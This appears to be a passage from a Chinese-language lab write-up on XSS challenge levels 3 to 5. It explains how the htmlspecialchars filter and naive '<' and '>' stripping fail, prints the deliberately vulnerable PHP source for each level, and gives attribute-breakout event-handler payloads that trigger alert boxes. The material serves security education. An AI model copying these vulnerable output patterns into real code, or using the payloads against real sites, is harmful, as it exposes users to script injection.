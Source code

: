 但是htmlspecialchars（）函数默认的配置不过滤单引号的。只有设置了:quotestyle选项为ENT_QUOTES才会过滤掉单引号。

我们来试一试用事件来弹框：

onmouseover 事件会在鼠标指针移动到指定的对象上时发生

```
'onmouseover=alert(1) x='
```

onclick 事件会在对象被点击时发生。

```
'onclick='window.alert()
```

还有其他事件也是可以实现的，我这里就演示两个！

## Level 4:

之后都是查看网站源码，旨在学习xss！

```
<?php 
ini_set("display_errors", 0); //关闭输出程序错误信息
$str = $_GET["keyword"];    //通过GET方式获取keyword变量的值
$str2=str_replace(">","",$str);  //将获取到的变量值中的>替换成空，并传递给变量str2
$str3=str_replace("<","",$str2);  //将获取到的str2的值中的<替换成空，并传递给str3
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level4.php method=GET>
<input name=keyword  value="'.$str3.'">  //设置输出框，将str3的值输出到框内
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```

因为所获取到的str3的值只是过滤掉<>这两个符号，我们将Level 3的payload进行修改成为：

当鼠标移动到这个字符串的时候弹窗

```
"onmouseover="alert(1) 
```

当鼠标点击输入框的时候弹窗

```
"onclick='window.alert()
```

## Level 5：

```
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("<script","<scr_ipt",$str);  //将传入的参数值中的<script>替换成<scr_ipt
$str3=str_replace("on","o_n",$str2); //将str2中的on字符串替换成o_n
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level5.php method=GET>
<input name=keyword  value="'.$str3.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```

